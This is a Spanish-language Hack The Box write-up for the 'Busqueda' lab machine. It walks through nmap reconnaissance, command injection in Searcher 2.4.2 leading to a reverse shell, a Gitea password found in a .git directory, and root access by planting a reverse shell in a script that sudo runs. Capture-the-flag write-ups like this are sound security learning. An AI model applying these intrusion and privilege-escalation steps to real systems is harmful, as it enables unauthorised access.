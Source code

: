 # Hack The Box - Busqueda Writeup

## Introducción

Busqueda es una máquina de Hack The Box que se enfoca en la explotación de vulnerabilidades de permisos, escalada de privilegios y manipulación de servicios en un entorno Dockerizado. En este writeup, detallaré cada paso que tomé para comprometer la máquina, incluyendo el uso de herramientas como nmap, whatweb, y sudo, así como técnicas de escalada de privilegios a través de la ejecución remota de comandos.

---

## Paso 1: Reconocimiento

El primer paso fue realizar un escaneo con nmap para identificar puertos abiertos y servicios disponibles en la máquina. Ejecuté el siguiente comando:

nmap -p- -sV -T4 10.10.11.208 -v -v10 -sT --min-rate 5000


El resultado mostró los puertos abiertos:

- **22/tcp** - SSH
- **80/tcp** - HTTP

### Análisis de la página web

Con el servicio HTTP en ejecución, utilicé **whatweb** para obtener más información sobre la tecnología de la página:

whatweb 10.10.11.208


La respuesta indicó un redireccionamiento a `http://searcher.htb`, lo que me llevó a agregar esta entrada en el archivo `/etc/hosts`:

echo "10.10.11.208 searcher.htb" | sudo tee -a /etc/hosts


Al acceder a `http://searcher.htb`, encontré una página simple que ofrecía dos motores de búsqueda. Tras investigar más a fondo, identifiqué una vulnerabilidad de **inyección de comandos arbitrarios** en la aplicación Searcher 2.4.2.

---

## Paso 2: Explotación de la vulnerabilidad de Inyección de Comandos

Utilicé la siguiente prueba de concepto (PoC) para inyectar comandos arbitrarios:

./script.sh http://searcher.htb 10.10.14.3


Esto me permitió ejecutar un **reverse shell** en el servidor. Posteriormente, estabilicé la shell con:

script /dev/null -c /bin/bash export TERM=xterm


Luego, presioné `CTRL+Z`, escribí `stty raw -echo;fg` y recuperé la shell estabilizada.

---

## Paso 3: Escalada de Privilegios

Al ejecutar **linpeas**, encontré un directorio `.git` en `/var/www/app/.git`. Esto me permitió obtener credenciales para acceder a un repositorio privado de Gitea en `http://gitea.searcher.htb`.

Al revisar la configuración del repositorio, encontré las siguientes credenciales de Gitea:

- **Usuario**: `cody`
- **Contraseña**: `jh1usoih2bkjaspwe92`

Con estas credenciales, inicié sesión en Gitea y obtuve más información sobre el entorno.

---

## Paso 4: Identificación de Comandos Permitidos por Sudo

Ejecuté el siguiente comando para verificar qué comandos podía ejecutar como el usuario `svc` con privilegios de **sudo**:

sudo -l


Esto mostró que el usuario `svc` podía ejecutar el siguiente comando como root:

/usr/bin/python3 /opt/scripts/system-checkup.py *


---

## Paso 5: Análisis de la herramienta `system-checkup.py`

Al inspeccionar el script `system-checkup.py`, observé tres opciones disponibles:

- **docker-ps**: Lista los contenedores Docker en ejecución.
- **docker-inspect**: Inspecciona un contenedor Docker específico.
- **full-checkup**: Ejecuta un chequeo completo del sistema.

Ejecuté el comando **docker-ps** y vi que había contenedores Docker en ejecución, incluyendo uno de Gitea y otro de MySQL.

Para explorar el comando **docker-inspect**, utilicé el siguiente formato:

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea


El comando devolvió un JSON con detalles sobre el contenedor de Gitea, lo que me permitió ver que el contenedor estaba configurado con ciertas variables de entorno, incluyendo una contraseña para la base de datos MySQL.

---

## Paso 6: Escalada de Privilegios Final

Al revisar el script, descubrí que el comando **full-checkup** ejecutaba el script `full-checkup.sh`. Aprovechando esto, creé un reverse shell en el archivo `full-checkup.sh` y lo cargué en una ubicación de escritura dentro del contenedor Docker.

Escuché en un puerto:

nc -lvnp 4444


Finalmente, ejecuté el siguiente comando para ejecutar el chequeo completo:

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup


Esto me dio acceso a una shell de root en el servidor.
